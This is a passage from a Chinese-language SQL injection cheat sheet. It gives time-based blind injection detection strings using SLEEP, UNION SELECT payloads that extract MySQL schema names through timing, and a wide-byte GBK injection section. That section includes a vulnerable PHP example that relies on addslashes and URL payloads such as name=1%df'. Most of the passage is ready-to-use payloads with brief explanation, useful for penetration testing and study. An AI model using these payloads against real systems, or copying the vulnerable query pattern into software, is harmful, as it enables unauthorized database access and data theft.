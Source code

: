 一些注意事项：

* 使用基于时间的盲注比较不准确，因为这还取决于当前的网络环境。
* 时间延缓最好不要超过30秒，否则容易导致mysql的API连接超时。
* 当在页面上看不到任何明显变化时，再考虑选择使用延时注入。

**检测方法**

```text
1 OR SLEEP(25)=0 LIMIT 1 #
1) OR SLEEP(25)=0 LIMIT 1 #
1' OR SLEEP(25)=0 LIMIT 1 #
') OR SLEEP(25)=0 LIMIT 1 #
1)) OR SLEEP(25)=0 LIMIT 1 #
SELECT SLEEP(25) #
```

**payload**

```text
UNION SELECT IF(SUBSTR((SELECT GROUP_CONCAT(schema_name SEPARATOR 0x3c62723e) FROM INFORMATION_SCHEMA.SCHEMATA),i,1) < j,BENCHMARK(100000,SHA1(1)),0)

UNION SELECT IF(SUBSTR((SELECT GROUP_CONCAT(schema_name SEPARATOR 0x3c62723e) FROM INFORMATION_SCHEMA.SCHEMATA),i,1) < j,SLEEP(10),0)

...
```

### 宽字节注入

#### 原理

有如下php代码：

```php
...
mysql_query("SET NAMES 'gbk'");
....
$name = isset($_GET['name']) ? addslashes($_GET['name']) : 1;
$sql = "SELECT * FROM test WHERE names='{$name}'";
```

addslashes\(\)会在单引号或双引号前加上一个`\`。当mysql使用GBK字符集时，会把两个字符当作一个汉字，如%df%5c为運字。我们输入`name=root%df%27`，%在服务器端会出现如下转换：`root%df%27` -&gt; `root%df%5c%27` -&gt; `root運'`。

更多内容可见：[浅析白盒审计中的字符编码及SQL注入](https://www.leavesongs.com/PENETRATION/mutibyte-sql-inject.html)

#### payload

**吃掉\**

```text
index.php?name=1%df'
index.php?name=1%a1'
index.php?name=1%aa'
...
```
